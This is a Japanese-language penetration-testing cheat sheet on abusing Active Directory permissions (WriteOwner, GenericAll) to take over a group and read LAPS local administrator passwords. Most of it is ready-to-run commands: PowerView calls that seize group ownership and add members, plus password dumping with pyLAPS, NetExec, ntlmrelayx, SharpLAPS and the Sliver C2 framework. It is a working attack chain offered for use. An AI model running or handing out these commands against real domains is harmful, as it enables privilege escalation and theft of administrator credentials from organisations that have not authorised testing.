

# ReadLAPSPasswordの悪用

この悪用は、`GenericAll`または`AllExtendedRights`（またはドメイン単位の同期のための`GetChanges`と（`GetChangesInFilteredSet`または`GetChangesAll` の組み合わせ）を持つオブジェクトを、LAPS 用に構成されたターゲットコンピュータ上で制御する場合に実行できる。攻撃者はその後、コンピュータアカウントのLAPSパスワード（すなわち、コンピュータのローカル管理者のパスワード）を読み取ることができる。



侵害済みのユーザーが `Core Staff` グループに対して `WriteOwner` の権限をっているとき、`Core Staff` グループを制御でき、その後、自分自身または侵害した他のユーザーをそのグループに追加することができる。

## グループにユーザーを追加

そのユーザーとしてプロセスを実行していない場合は、ターゲットユーザーを完全に制御するユーザーとしてドメインコントローラーを認証する必要があるかもしれない。`Get-DomainObject` と組み合わせてこれを行うには、まず `PSCredential` オブジェクトを作成する。

```
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $SecPassword)
```

グループの `OwnerIdentity`(オブジェクトの所有者) と `PrincipalIdentity` (オブジェクトのアクセス権)を変更します。

```
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity <USERNAME> -Cred $cred
```

オブジェクトに対してアクセス権を与える

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity <USERNAME> -Cred $cred -Rights All
```

ユーザーをグループに追加

```
Add-DomainGroupMember -Identity 'CORE STAFF' -Members '<USERNAME>' -Cred $cred
```

グループに追加されているか確認

```
net group 'CORE STAFF'
```

# LAPSパスワードを取得する

## Linux

[pyLAPS](https://github.com/p0dalirius/pyLAPS) を使用して LAPS パスワードを取得

```
pyLAPS.py --action get -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --dc-ip "<DC_IP>"
```

[NetExec](https://github.com/Pennyw0rth/NetExec)を使用してLAPSパスワードを取得

```
netexec ldap <DC_IP> -u "<USERNAME>" -p "<PASSWORD>" --module laps
```

[impacket-ntlmrelayx](https://github.com/fortra/impacket)を使用してパスワードを取得

```
impacket-ntlmrelayx -t ldaps://<DC_IP> --dump-laps
```

その他

[LAPSDumper](https://github.com/n00py/LAPSDumper)

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

## Windows

Active Directory PowerShell モジュールを使用してパスワードを取得

```
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)モジュールを使用してパスワードを取得

```
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

```
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)で一連の動作を自動で行う

```
SharpLAPS.exe /user:"<DOMAIN>\<USERNAME>" /pass:"<PASSWORD>" /host:"<DC_IP>"
```

## Sliver C2

Sliver C2にはArmoryというパッケージマネージャによって[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)をターゲットマシンにアップロードせずに使用できる

```
sharplaps /user:<USERNAME> /pass:<PASSWORD> /host:<DC_IP>
```

